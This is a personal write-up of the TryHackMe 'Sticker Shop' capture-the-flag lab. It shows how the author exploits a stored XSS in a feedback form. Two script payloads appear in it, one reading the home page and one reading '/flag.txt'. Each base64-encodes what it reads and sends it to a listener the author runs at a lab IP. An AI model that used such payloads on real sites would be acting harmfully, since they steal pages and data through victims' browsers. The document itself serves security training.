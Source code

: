 The Sticker Shop Tryhackme 09/12/2024  
(This is a personal writeup to be consulted later)  

This is the website of the challenge , to get the flag , we need to access http://10.10.250.141:8080/flag.txt  

![image](https://github.com/user-attachments/assets/963c3da6-f9a6-4d9e-badb-a4bad5f02f19)  

I can't click on the stickers.  
there is an input in the Feedback page:  
![image](https://github.com/user-attachments/assets/f8604228-6033-473e-a71d-d4b3e2cd23c1)  

It looks like there is an XSS vulnerability  
I set up for XSS , I prepare the listener :  
" sudo python3 -m http.server 80 "  
![image](https://github.com/user-attachments/assets/19232d56-7203-41ff-af91-32f030083f57)  

then I will use this XSS Payload in the feedback input :  
'<script>
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.21.40.71:80/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
'  
I got this response on the listener  
![image](https://github.com/user-attachments/assets/cd45fba8-1dd2-4e27-8c80-ab9c7b4c9440)  
I decode it using the command  
'echo "...." | base64 -d"  
I get this result  
<!DOCTYPE html>
<html>
<head>
    <title>Cat Sticker Shop</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        header {
            background-color: #333;
            color: #fff;
            text-align: center;
            padding: 10px;
        }
        header ul {
            list-style: none;
            padding: 0;
        }
        header li {
            display: inline;
            margin-right: 20px;
        }
        header a {
            text-decoration: none;
            color: #fff;
            font-weight: bold;
        }
        .content {
            padding: 20px;
        }
        .product {
            border: 1px solid #ccc;
            padding: 10px;
            margin: 10px;
            display: inline-block;
        }
    </style>
</head>
<body>
    <header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
    <div class="content">
        <h1>Welcome to the Cat Sticker Shop!</h1>
        <div class="product">
            <img src="/static/images/cat_sticker_1.png" alt="Cat Sticker 1" width="300" height="300">
            <h2>Cat Sticker 1</h2>
            <p>Price: $2.99</p>
        </div>
        <div class="product">
            <img src="/static/images/cat_sticker_2.png" alt="Cat Sticker 2" width="300" height="300">
            <h2>Cat Sticker 2</h2>
            <p>Price: $3.99</p>
        </div>

    </div>
    <br>&nbsp;&nbsp;We only sell stickers at our physical store. Please feel free to stop by!
</body>
</html>

==> Then I will change my payload , to check the content of the flag.txt , as the hint is mentioned  
'<script>
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.21.40.71:80/' + btoa(text), {mode:'no-cors'}); 
  });
</script>'  
I got this response :  
![image](https://github.com/user-attachments/assets/64cce555-fffe-44e8-81da-ef3ac72b43e2)  
I decode it the same as before  :  
![image](https://github.com/user-attachments/assets/613e999e-e384-4857-956d-89d94bb49a2d)


